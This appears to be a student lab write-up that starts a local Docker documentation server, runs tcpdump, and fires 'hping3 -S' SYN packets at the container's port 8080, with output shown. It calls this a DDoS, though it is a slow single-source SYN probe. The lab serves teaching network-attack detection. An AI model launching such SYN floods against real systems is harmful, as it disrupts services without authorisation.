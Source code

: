 # Task1

A prerequisite for this task a copy of data collector server is needed, open a terminal and execute the following command:
```git clone https://git.swarmlab.io:3000/docs/Documentation```


Start the data collector server with the following command:

```./build.sh network-scanning```

Output:
```
===> Build docs
swarmlab-documentation
swarmlab-documentation
Using default tag: latest
latest: Pulling from antora
Digest: sha256:843a767ff93237591635109791d45c2112d7263413925f29d3beb244eab7e331
Status: Image is up to date for hub.swarmlab.io:5480/antora:latest
hub.swarmlab.io:5480/antora:latest

-----------------------------------------------------------------------------------------

*** On Error ***

    Get https://hub.swarmlab.io:5480/v2/: x509: certificate
    Pulling …
    ERROR: Get https://hub.swarmlab.io:5480/v2/: x509: certificate signed by unknown authority

*** run ***

    ./0-get-certs.sh

-----------------------------------------------------------------------------------------

---------------------------- *** WSL2 ***  --------------------------

   With Docker Desktop running on WSL 2, users can use: http://127.0.0.1:8080

---------------------------- *********** ---------------------------


[clone] ...git.swarmlab.io:3000/docs/Documentation.git [##########################################]
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1673 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:3653035 (3.4 MiB)  TX bytes:92843 (90.6 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

Starting up http-server, serving build/site
Available on:
  http://127.0.0.1:8080
  http://172.17.0.2:8080
Hit CTRL-C to stop the server
```

The DDOS attack will target the 172.17.0.2:8080 ip:port.
Open a terminal and start a tcpdump to locate the attack with the following command:
```sudo tcpdump```
Output(after attack):
```
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on veth737dcab, link-type EN10MB (Ethernet), capture size 262144 bytes
19:38:41.464435 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [S], seq 1852578829, win 512, length 0
19:38:41.464469 IP 172.17.0.2.http-alt > ubuntu.1988: Flags [S.], seq 2181594135, ack 1852578830, win 64240, options [mss 1460], length 0
19:38:41.464483 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [R], seq 1852578830, win 0, length 0
19:38:42.464619 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [S], seq 943577023, win 512, length 0
19:38:42.464666 IP 172.17.0.2.http-alt > ubuntu.1989: Flags [S.], seq 1890022353, ack 943577024, win 64240, options [mss 1460], length 0
19:38:42.464682 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [R], seq 943577024, win 0, length 0
19:38:43.465204 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [S], seq 1181352384, win 512, length 0
19:38:43.465252 IP 172.17.0.2.http-alt > ubuntu.1990: Flags [S.], seq 2871466929, ack 1181352385, win 64240, options [mss 1460], length 0
19:38:43.465269 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [R], seq 1181352385, win 0, length 0
19:38:44.465417 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [S], seq 1496283475, win 512, length 0
19:38:44.465460 IP 172.17.0.2.http-alt > ubuntu.1991: Flags [S.], seq 2364895447, ack 1496283476, win 64240, options [mss 1460], length 0
19:38:44.465477 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [R], seq 1496283476, win 0, length 0
19:39:41.924688 IP6 ubuntu.mdns > ff02::fb.mdns: 0 [2q] PTR (QM)? _ipps._tcp.local. PTR (QM)? _ipp._tcp.local. (45)
19:39:48.384077 IP6 ubuntu > ip6-allrouters: ICMP6, router solicitation, length 16
^C
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```

Open a third terminal and launch the DDOS attack with the following command:
```sudo hping3 -S 172.17.0.2 -p 8080```

Output:
```
HPING 172.17.0.2 (docker0 172.17.0.2): S set, 40 headers + 0 data bytes
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=0 win=64240 rtt=8.1 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=1 win=64240 rtt=7.6 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=2 win=64240 rtt=7.2 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=3 win=64240 rtt=6.7 ms
^C
--- 172.17.0.2 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 6.7/7.4/8.1 ms
```

Evidence of the attack being successful can be noticed in the tcpdump output (packets with zero length are a result of the attack)

